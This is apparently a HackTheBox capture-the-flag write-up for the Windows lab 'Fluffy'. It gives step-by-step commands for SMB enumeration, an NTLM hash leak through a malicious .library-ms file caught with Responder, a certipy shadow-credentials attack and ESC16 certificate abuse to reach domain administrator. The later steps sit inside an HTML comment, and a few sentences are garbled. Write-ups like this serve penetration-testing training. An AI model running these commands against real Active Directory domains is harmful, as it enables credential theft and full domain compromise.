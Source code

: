 # Fluffy

```
Difficulty: Easy
Operating System: Windows
Hints: True
```

**🏁 Summary of Attack Chain**


| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `j.fleischman` | **SMB Enumeration** | Used `smbmap` to enumerate SMB shares with the initial user credentials. Discovered the `IT` share, which had read and write permissions. |
| 2 | `p.agila` | **CVE-2025-24071 (NTLM Hash Leak)** | Uploaded a malicious `.library-ms` file to the `IT` share. When a user accessed the file, their NTLMv2 hash was leaked and captured using `Responder`. The hash was then cracked with `John the Ripper`, revealing the password `promXXXXXXXXXXX`. This provided access to the user `p.agila`. |
| 3 | `winrm_svc` | **Shadow Credentials** | A Bloodhound analysis showed that `p.agila` had `GenericWrite` permissions on `SERVICE ACCOUNTS` group members like `winrm_svc`. A shadow credential attack was performed on `winrm_svc`, allowing the attacker to get its NT hash and gain a WinRM shell. |
| 4 | `administrator` | **ESC16 Vulnerability** | A vulnerable Certificate Authority was identified. The `userPrincipalName` of the `ca_svc` account was changed to `administrator`, and a certificate was requested for `ca_svc` with the new UPN. This certificate was then used to authenticate as the `administrator` and retrieve the NT hash, which provided root access to the domain controller. |



#### Initial Access & NTLM Hash Leak


The initial foothold began with the provided credentials for the user j.fleischman. A standard Nmap scan of the target machine (Fluffy.htb) revealed several open ports, including SMB (445) and LDAP (389), indicating an Active Directory environment.

To investigate the SMB shares, I used smbmap with the provided credentials:

Bash

```
smbmap -H 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!'
```

The scan showed that the IT share had READ, WRITE permissions. Upon listing the contents of this share with smbclient, several files were found, including a PDF named Upgrade_Notice.pdf. A vulnerability search related to these files led to CVE-2025-24071, an NTLM hash leak vulnerability involving .library-ms files.

I used a public proof-of-concept (PoC) to create a malicious .library-ms file and an associated ZIP file. The exploit was configured to direct hash requests to my attacking machine. I then uploaded these files to the IT share and started Responder to capture any incoming NTLM hashes.

Bash

**Uploading the malicious files**

```
smbclient //10.10.11.69/IT -U j.fleischman
smb: \> put docs.library-ms
smb: \> put exploit.zip
```

**Running Responder on my machine**

```
responder -I tun0 -wvF
```

Soon after, a user on the network accessed the malicious file, and Responder captured an NTLMv2 hash for the user p.agila. The hash was then cracked using john with the rockyou.txt wordlist, revealing the password: promXXXXXXXXXXX.

**Access Restricted by HackTheBox Rules**

<!--

# Privilege Escalation to winrm_svc

With the new credentials for p.agila, I used Bloodhound to analyze the Active Directory environment for potential privilege escalation paths.

Bash

```
bloodhound-python -u 'p.agila' -p 'promXXXXXXXXXXX' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```

The analysis showed that p.agila was a member of the SERVICE ACCOUNTS group, which had GenericWrite permissions on several service accounts, including winrm_svc. This is a classic Shadow Credentials attack vector.

![p.agila ](Pictures/htb_fluffy_Service_account.png)

Note that p.agilayou can add yourself to servicethe user group

![permission ](Pictures/htb_fluffy_Service_account_Write_Per.png)

![Added ](Pictures/htb_fluffy_addedotserviceacc.png)

Then the group has write permissions servicefor the userCA_SVC

![ca_svc ](Pictures/htb_fluffy_casvblh.png)

Using certipy, I performed a shadow credential attack on the winrm_svc account to get its NTLM hash.

Bash

```
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -account 'WINRM_SVC' -dc-ip '10.10.11.69'
```

![Winrm Hash](Pictures/htb_fluffy_pagola_winrm_hash.png)

This gave me the NTLM hash for winrm_svc, which I then used with evil-winrm to get a shell on the domain controller.

Bash

```
evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '<winrm_svc_hash>'
```

![User_Flag](Pictures/htb_fluffy_user_flag.png)

This provided access to the user.txt flag.



####Domain Administrator Compromise via ESC16


Further enumeration with certipy revealed a critical vulnerability on the Certificate Authority (CA), specifically ESC16, which allows an attacker to exploit a misconfigured CA to impersonate other users.

Bash

```
certipy find -username ca_svc -hashes :<ca_svc_hash> -dc-ip 10.10.11.69 -vulnerable
```

The exploitation of ESC16 involved a series of steps:

I temporarily changed the userPrincipalName (UPN) of the ca_svc account to administrator.

I requested a certificate for ca_svc using the new administrator UPN.

I reverted the ca_svc account's UPN back to its original value.

Finally, I used the forged certificate to authenticate as the administrator and retrieve the domain administrator's NTLM hash.

Here's the sequence of commands:

Bash

**1. Update UPN of ca_svc to administrator**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' update
```

![UPN_Update](Pictures/htb_fluffy_ca_svc_admin_perm.png)

**2. Request a certificate as the administrator**

```
certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'
```

![Request_Certificate](Pictures/htb_fluffy_adminpfx.png)

**3. Restore the UPN of ca_svc**

```
certipy account -u 'p.agila@fluffy.htb' -p 'promXXXXXXXXXXX' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```

![ca_svc](Pictures/htb_fluffy_casvcNT.png)

**4. Authenticate and get the administrator hash**

```
certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```

![Admin_hash](Pictures/htb_fluffy_admin_hash.png)

The final command successfully yielded the NTLM hash for the administrator, which can be used for a full domain compromise.

![Root_Flag](Pictures/htb_fluffy_Root.png)


-->


**Pwned! Fluffy**